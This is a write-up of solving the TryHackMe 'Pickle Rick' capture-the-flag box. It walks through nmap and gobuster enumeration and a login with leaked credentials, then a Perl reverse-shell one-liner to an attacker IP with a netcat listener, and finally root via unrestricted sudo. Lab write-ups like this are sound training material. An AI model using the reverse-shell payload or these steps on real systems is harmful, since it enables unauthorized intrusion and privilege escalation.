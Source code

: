 ```yaml
---
layout: post
title: "Pickle Rick - TryHackMe"
date: 2020-07-26
ctf: true
excerpt: "Walkthrough for Pickle Rick on TryHackme"
tags: [Wonderland, TryHackMe, privilege escalation, website enumeration]
comments: false
---
```

Pickle Rick is an easy rated difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to root this box.

First, I enumerated the open TCP ports with **threader3000**.

![Pickle Rick threader3000](/assets/img/PickleRick1.png)

Next, I enumerated the ports with **nmap -A -p 22,80 [machine ip]**.

![Pickle Rick nmap](/assets/img/PickleRick2.png)

It appears there is a website running on port 80. I visited the site to see what I could find.

![Pickle Rick website](/assets/img/PickleRick3.png)

It appears you are looking for ingredients for a recipe, and need to log into the victim computer to find them. Let's look at the source code of this page. The bolded words of **BURP** are probably a hint that burp suite is needed.

![Pickle Rick Source Code username](/assets/img/PickleRick4.png)

This appears to be a username for something, so let's make a note of it for now. Next, let's enumerate the site with gobuster and see if we can find anything else on this site. The command I ran was **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt -t 50**

![Pickle Rick gobuster](/assets/img/PickleRick5.png)

We find a few different files/folders. **/assets** contained a couple of javascript files and a few images that we will come back to. The **robots.txt** contains a single word in it.

![Pickle Rick robots.txt](/assets/img/PickleRick6.png)

Let's take a look at **/login.php** (**/portal.php** redirects to **/login.php** as well). It asks for a set of credentials. Let's try the username and potential passwords we uncovered previously.

![Pickle Rick portal.php](/assets/img/PickleRick7.png)

We were able to login successfully and now have a command panel.

![Pickle Rick Command Panel](/assets/img/PickleRick8.png)

Let's run **whoami** and see what happens.

![Pickle Rick Command Panel 2](/assets/img/PickleRick9.png)

It appears we can execute shell commands, let's open up a netcat listener on our attacker pc with **nc -nvlp 4444**

![Pickle Rick nc listener](/assets/img/PickleRick10.png)

Next, lets try entering reverse shell one liners ([found here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)) until we find one that works. The perl one seemed to work with **perl -e 'use Socket;$i="[attacker ip]";$p=[attacker port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'**

![Pickle Rick perl reverse shell](/assets/img/PickleRick11.png)

We should now have a reverse shell established on our attacker PC. Running **whoami** lets you know you're running as **www-data**, and there is a file here that appears to contain the first ingredient.

![Pickle Rick www-data shell](/assets/img/PickleRick12.png)

 Let's run **cat Sup3rS3cretPickl3Ingred.txt** and see what is there.

![Pickle Rick 1st ingredient](/assets/img/PickleRick13.png)

This is the answer to the first flag. There is another text file present, lets look at it with **cat clue.txt**

![Pickle Rick clue.txt](/assets/img/PickleRick14.png)

Let's take this clue's advise and run **find / -name "second*" 2>/dev/null**. This will return the location of the 2nd ingredient file.

![Pickle Rick 2nd ingredient location](/assets/img/PickleRick15.png)

Let's run **cat** on the file directory/name above in quotes and see what happens:

![Pickle Rick 2nd clue](/assets/img/PickleRick16.png)

Success, this is the 2nd clue. Let's run **sudo -l** and see if www-data has any privileges we can run as another user.

![Pickle Rick sudo -l](/assets/img/PickleRick17.png)

We can run any command as any user. Before we can swap users to root, we need to upgrade our shell. Let's run **python3 -c 'import pty; pty.spawn("/bin/sh")'.**

![Pickle Rick shell upgrade python3](/assets/img/PickleRick18.png)

Let's run **sudo su** to switch to root and then **cd /root** followed by **ls -al** to see what's in root's home folder. There's a file called **3rd.txt**. Let's run **cat 3rd.txt** to get the 3rd flag and finish this box.

![Pickle Rick 3rd ingredient](/assets/img/PickleRick19.png)

